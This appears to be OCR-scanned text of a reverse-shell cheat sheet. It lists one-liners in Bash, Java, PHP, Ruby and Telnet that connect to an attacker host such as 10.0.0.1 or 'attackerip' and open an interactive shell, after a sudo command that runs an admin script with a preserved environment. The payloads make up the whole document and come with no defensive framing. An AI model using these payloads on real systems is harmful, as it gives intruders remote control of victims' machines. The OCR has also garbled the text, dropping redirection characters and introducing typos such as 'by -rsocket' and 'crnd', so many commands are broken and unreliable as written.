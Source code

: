 ```text
sudo -E PYTHONPATH=$(pwd) /opt/scripts/admin_tasks.sh 6
```


### Bash language

```text
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

### Java language

```text
r = Runtime.getRuntime()
p = r.exec( ["/bin/bash","-c","exec 5 /dev/tcp/10.0.0.1/2002;cat &5 |
while read line; do \$line 2 &5 &5; done"] as String[])
p.waitFor()
```

### Php language

```text
php -r '$sock=fsockopen("10.0.0.1", 1234) ;exec("/bin/sh -i &3 &3 2 &3");'
```

### Ruby language

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec
sprintf("/bin/sh -i &%d &%d 2 &%d",f,f,f)'
```

### Ruby language without /bin/sh

```text
by -rsocket -e 'exit if
fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd, " r
") {| io|c.print io.read}end'
```

### Ruby language for windows

```text
ruby -rsocket -e
'c=TCPSocket.new("attackerip","4444");while(crnd=c.gets);IO.popen{cmd,"r" ) {|
io|c.print io.read}end'
```

### Telnet command

```text
rm -f /tmp/p; mknod /tmp/p p && telnet attackerrip 4444 0/tmp/p
--OR--
telnet attacker rip 4444 | /bin/bash | telnet attacker rip 4445
```
